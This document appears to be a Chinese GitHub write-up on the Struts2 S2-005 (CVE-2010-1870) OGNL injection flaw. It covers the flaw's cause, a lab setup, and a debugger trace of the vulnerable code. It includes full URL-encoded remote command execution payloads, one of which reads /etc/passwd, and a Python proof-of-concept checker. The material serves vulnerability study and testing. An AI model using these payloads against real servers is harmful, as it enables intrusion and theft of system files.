* [目录](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-005/S2-005.md#目录)
   * [前言](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-005/S2-005.md#前言)
   * [Struts简介](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-005/S2-005.md#struts简介)
   * [漏洞复现](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-005/S2-005.md#漏洞复现)
      * [漏洞简介](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-005/S2-005.md#漏洞简介)
         * [漏洞成因](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-005/S2-005.md#漏洞成因)
         * [漏洞影响范围](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-005/S2-005.md#漏洞影响范围)
      * [环境搭建](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-005/S2-005.md#环境搭建)
      * [Payload](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-005/S2-005.md#payload)
         * [低版本Tomcat执行命令](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-005/S2-005.md#低版本tomcat执行命令)
         * [高版本Tomcat执行命令](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-005/S2-005.md#高版本tomcat执行命令)
         * [高版本Tomcat读取文件](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-005/S2-005.md#高版本tomcat读取文件)
      * [POC](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-005/S2-005.md#poc)
   * [漏洞分析](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-005/S2-005.md#漏洞分析)
   * [漏洞修复](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-005/S2-005.md#漏洞修复)
   * [总结](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-005/S2-005.md#总结)
   * [参考](https://github.com/taomujian/douzhe/tree/master/Struts2/S2-005/S2-005.md#参考)

## 前言

> 这是Struts系列第三篇,继续加油!

## Struts简介

> Struts2是用Java语言编写的一个基于MVC设计模式的Web应用框架

## 漏洞复现

### 漏洞简介

> Struts2 S2-005漏洞,又名CVE-2010-1870漏洞.

> Struts2会将http的每个参数名解析为OGNL语句执行.OGNL表达式通过#来访问Struts的对象,Struts框架通过过滤#字符防止安全问题,通过unicode编码(u0023)或8进制(43)就可以绕过了安全限制,对于S2-003漏洞,对于S2-003漏洞,官方通过增加安全配置即增加沙盒机制(禁止静态方法allowStaticMethodAcces、MethodAccessor.denyMethodExecution调用和类方法执行等)来修补,但是这个沙盒机制被绕过导致了S2-005漏洞.S2-005漏洞是对S2-003漏洞补丁的绕过.

> [漏洞详情地址](https://cwiki.apache.org/confluence/display/WW/S2-005)

#### 漏洞成因

> Struts2会将HTTP的每个参数名解析为ognl语句执行,OGNL表达式通过#来访问Struts的对象,Struts框架通过过滤#字符防止安全问题,通过unicode编码(u0023)或8进制(43)就可以绕过了安全限制.S2-003漏洞补丁中的安全配置(禁止静态方法allowStaticMethodAcces、MethodAccessor.denyMethodExecution调用和类方法执行等)被绕过再次导致了S2-005漏洞.利用OGNL先把沙盒关闭掉,xwork.MethodAccessor.denyMethodExecution设置为false,allowStaticMethodAccess设置为true就可以绕过沙盒机制了.

#### 漏洞影响范围

> Struts 2.0.0 - Struts 2.1.8.1

### 环境搭建

> 使用IDEA直接打开[源码地址](https://github.com/xhycccc/Struts2-Vuln-Demo)中的对应文件,因为这个地址中的源文件和S2-003的是一样的,所以如果想要只复现S2-005漏洞的话,需要把Struts2-Vuln-Demo/S2-005目录中的lib目录替换为本目录下的lib目录才行,共需要替换2处,分别是S2-005/web/WEB-INF/lib和S2-005/out/artifacts/s2_005_war_exploded/WEB-INF/lib,Tomcat必须是6.0.x版本才行,[下载地址](http://archive.apache.org/dist/tomcat/tomcat-6/),我下载的是6.0.10版本的tomcat,然后配置好Tomcat 6.0.x版本的就可以运行了

### Payload

#### 低版本Tomcat执行命令

```java
('%5Cu0023context%5B%5C'xwork.MethodAccessor.denyMethodExecution%5C'%5D%5Cu003dfalse')(bla)(bla)&('\u0023_memberAccess.allowStaticMethodAccess\u003dtrue')(bla)(bla)&('%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET')(kxlzx)(kxlzx)&('%5Cu0023mycmd%5Cu003d%5C'id%5C'')(bla)(bla)&('%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime().exec(%5Cu0023mycmd)')(bla)(bla)&(A)(('%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream(%5Cu0023myret.getInputStream())')(bla))&(B)(('%5Cu0023myres%5Cu003dnew%5C40byte%5B51020%5D')(bla))&(C)(('%5Cu0023mydat.readFully(%5Cu0023myres)')(bla))&(D)(('%5Cu0023mystr%5Cu003dnew%5C40java.lang.String(%5Cu0023myres)')(bla))&('%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse()')(bla)(bla)&(E)(('%5Cu0023myout.getWriter().println(%5Cu0023mystr)')(bla))
```

#### 高版本Tomcat执行命令

```java
?%28%27%5Cu0023context[%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27]%5Cu003dfalse%27%29%28bla%29%28bla%29&%28%27%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET%27%29%28kxlzx%29%28kxlzx%29&%28%27%5Cu0023_memberAccess.allowStaticMethodAccess%5Cu003dtrue%27%29%28bla%29%28bla%29&%28%27%5Cu0023mycmd%5Cu003d%5C%27whoami%5C%27%27%29%28bla%29%28bla%29&%28%27%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime%28%29.exec%28%5Cu0023mycmd%29%27%29%28bla%29%28bla%29&%28A%29%28%28%27%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream%28%5Cu0023myret.getInputStream%28%29%29%27%29%28bla%29%29&%28B%29%28%28%27%5Cu0023myres%5Cu003dnew%5C40byte[51020]%27%29%28bla%29%29&%28C%29%28%28%27%5Cu0023mydat.readFully%28%5Cu0023myres%29%27%29%28bla%29%29&%28D%29%28%28%27%5Cu0023mystr%5Cu003dnew%5C40java.lang.String%28%5Cu0023myres%29%27%29%28bla%29%29&%28%27%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28bla%29%28bla%29&%28E%29%28%28%27%5Cu0023myout.getWriter%28%29.println%28%5Cu0023mystr%29%27%29%28bla%29%29
```

#### 高版本Tomcat读取文件

```java
?%28%27%5Cu0023context[%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27]%5Cu003dfalse%27%29%28bla%29%28bla%29&%28%27%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET%27%29%28kxlzx%29%28kxlzx%29&%28%27%5Cu0023_memberAccess.allowStaticMethodAccess%5Cu003dtrue%27%29%28bla%29%28bla%29&%28%27%5Cu0023mycmd%5Cu003d%5C%27cat%20/etc/passwd%5C%27%27%29%28bla%29%28bla%29&%28%27%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime%28%29.exec%28%5Cu0023mycmd%29%27%29%28bla%29%28bla%29&%28A%29%28%28%27%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream%28%5Cu0023myret.getInputStream%28%29%29%27%29%28bla%29%29&%28B%29%28%28%27%5Cu0023myres%5Cu003dnew%5C40byte[51020]%27%29%28bla%29%29&%28C%29%28%28%27%5Cu0023mydat.readFully%28%5Cu0023myres%29%27%29%28bla%29%29&%28D%29%28%28%27%5Cu0023mystr%5Cu003dnew%5C40java.lang.String%28%5Cu0023myres%29%27%29%28bla%29%29&%28%27%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28bla%29%28bla%29&%28E%29%28%28%27%5Cu0023myout.getWriter%28%29.println%28%5Cu0023mystr%29%27%29%28bla%29%29
```

### POC

```python
#!/usr/bin/env python3

'''
name: Struts2 S2-005漏洞，又名CVE-2010-1870漏洞
description: Struts2 S2-005漏洞可执行任意命令
'''

import re
import urllib
import random
import string
import requests

class S2_005_BaseVerify:
    def __init__(self, url):
        self.url = url 
        self.headers = {
            'User-Agent': "Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/45.0.2454.85 Safari/537.36 115Browser/6.0.3",
            'Connection': 'close',
            'Upgrade-Insecure-Requests': '1',
            'Cache-Control': 'max-age=0'
        }
        self.capta = self.get_capta() 
        self.check_payload = '''?%28%27%5Cu0023context[%5C%27xwork.MethodAccessor.denyMethodExecution%5C%27]%5Cu003dfalse%27%29%28bla%29%28bla%29&%28%27%5Cu0023_memberAccess.excludeProperties%5Cu003d@java.util.Collections@EMPTY_SET%27%29%28kxlzx%29%28kxlzx%29&%28%27%5Cu0023_memberAccess.allowStaticMethodAccess%5Cu003dtrue%27%29%28bla%29%28bla%29&%28%27%5Cu0023mycmd%5Cu003d%5C%27''' + urllib.parse.quote(('echo' + ' ' + self.capta), 'utf-8') + '''%5C%27%27%29%28bla%29%28bla%29&%28%27%5Cu0023myret%5Cu003d@java.lang.Runtime@getRuntime%28%29.exec%28%5Cu0023mycmd%29%27%29%28bla%29%28bla%29&%28A%29%28%28%27%5Cu0023mydat%5Cu003dnew%5C40java.io.DataInputStream%28%5Cu0023myret.getInputStream%28%29%29%27%29%28bla%29%29&%28B%29%28%28%27%5Cu0023myres%5Cu003dnew%5C40byte[51020]%27%29%28bla%29%29&%28C%29%28%28%27%5Cu0023mydat.readFully%28%5Cu0023myres%29%27%29%28bla%29%29&%28D%29%28%28%27%5Cu0023mystr%5Cu003dnew%5C40java.lang.String%28%5Cu0023myres%29%27%29%28bla%29%29&%28%27%5Cu0023myout%5Cu003d@org.apache.struts2.ServletActionContext@getResponse%28%29%27%29%28bla%29%28bla%29&%28E%29%28%28%27%5Cu0023myout.getWriter%28%29.println%28%5Cu0023mystr%29%27%29%28bla%29%29'''                    
    
    def get_capta(self):
        """
        获取一个随机字符串

        :param:

        :return str capta: 生成的字符串
        """
        capta = ''
        words = ''.join((string.ascii_letters,string.digits))
        for i in range(8):
            capta = capta + random.choice(words)
        return capta

    def run(self):
        """
        检测是否存在漏洞

        :param:

        :return str True or False
        """

        if not self.url.startswith("http") and not self.url.startswith("https"):
            self.url = "http://" + self.url
        if '.action' not in self.url:
            self.url = self.url + '/example/HelloWorld.action'
        try:
            check_req = requests.get(self.url + self.check_payload, headers = self.headers, stream=True)
            if self.capta in check_req.raw.read(50).decode(encoding='utf-8'):
                return True
            else:
                return False
        except Exception as e:
            print(e)
            return False
        finally:
            pass

if  __name__ == "__main__":
    S2_005 = S2_005_BaseVerify('http://127.0.0.1:8090/S2-005')
    S2_005.run()
```

## 漏洞分析

首先Struts2的运行流程是


&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器(Filter)组件链(这些拦截器可以是Struts2 自带的,也可以是用户自定义的,本环境中struts.xml中的package继承自struts-default,struts-default就使用了Struts2自带的拦截器.ActionContextCleanUp主要是清理当前线程的ActionContext、Dispatcher,FilterDispatcher主要是通过ActionMapper来决定需要调用那个Action,FilterDispatcher是控制器的核心,也是MVC中控制层的核心组件),最后到达FilterDispatcher过滤器.

&emsp;&emsp;&emsp;&emsp;2.核心控制器组件FilterDispatcher根据ActionMapper中的设置确定是否需要调用某个Action组件来处理这个HttpServletRequest请求,如果ActionMapper决定调用某个Action组件,FilterDispatcher核心控制器组件就会把请求的处理权委托给ActionProxy组件.

&emsp;&emsp;&emsp;&emsp;3.ActionProxy组件通过Configuration Manager组件获取Struts2框架的配置文件struts.xml,最后找到需要调用的目标Action组件类,然后ActionProxy组件就创建出一个实现了命令模式的ActionInvocation类的对象实例类的对象实例(这个过程包括调用Anction组件本身之前调用多个的拦截器组件的before()方法)同时ActionInvocation组件通过代理模式调用目标Action组件.但是在调用之前ActionInvocation组件会根据配置文件中的设置项目加载与目标Action组件相关的所有拦截器组件(Interceptor)

&emsp;&emsp;&emsp;&emsp;4.一旦Action组件执行完毕,ActionInvocation组件将根据开发人员在Struts2.xml配置文件中定义的各个配置项目获得对象的返回结果,这个返回结果是这个Action组件的结果码(比如SUCCESS、INPUT),然后根据返回的该结果调用目标JSP页面以实现显示输出.

&emsp;&emsp;&emsp;&emsp;5.最后各个拦截器组件会被再次执行(但是顺序和开始时相反,并调用after()方法),然后请求最终被返回给系统的部署文件中配置的其他过滤器,如果已经设置了ActionContextCleanUp过滤器,那么FilterDispatcher就不会清理在ThreadLocal对象中保存的ActionContext信息.如果没有设置ActionContextCleanUp过滤器,FilterDispatcher就会清除掉所有的ThreadLocal对象.

具体分析过程:

&emsp;&emsp;&emsp;&emsp;1.HTTP请求经过一系列的标准过滤器后到达ParametersInterceptor拦截器,进行参数的解析.这个拦截器继承自MethodFilterInterceptor,其主要功能是把ActionContext中的请求参数设置到ValueStack中,如果栈顶是当前Action则把请求参数设置到了Action中,如果栈顶是一个model(Action实现了ModelDriven接口)则把参数设置到了model中.问题出在ParametersInterceptor中,文件路径为xwork-2.0.5-sources.jar/com/opensymphony/xwork2/interceptor/ParametersInterceptor.java,在107和108行中打下断点,可见denyMethodExecution的预设值为true,需要设置为false才能继续执行,所以payload中有一部分代码是用来设置denyMethodExecution为false



&emsp;&emsp;&emsp;&emsp;2.执行payload后获取到的参数


&emsp;&emsp;&emsp;&emsp;3.F7进入到setParameters函数,此时开始通过迭代器取出一个个传入的参数,并进行处理



&emsp;&emsp;&emsp;&emsp;4.F7进入acceptableName函数,继续F7进入isAccepted函数



&emsp;&emsp;&emsp;&emsp;5.可看到这里通过简单的正则表达式[\p{Graph}&&[^,#:=]]*来检测,防止传入恶意特殊字符开头如#等.此处只过滤了#却没有过滤#字符的unicode格式,所以导致了安全限制被绕过从而导致了漏洞的产生.



&emsp;&emsp;&emsp;&emsp;6.分析\u0023到#的处理,继续执行,跟进setValue方法



继续F7进入setValue,跳到下面的重载方法





F7进入OgnlUtil.setValue方法


F7进入complie方法



F7进入parseExpression方法



F7进入topLevel方法,从topLevelExpression就开始了进行语法分析工作.接着进行expression()的解析。



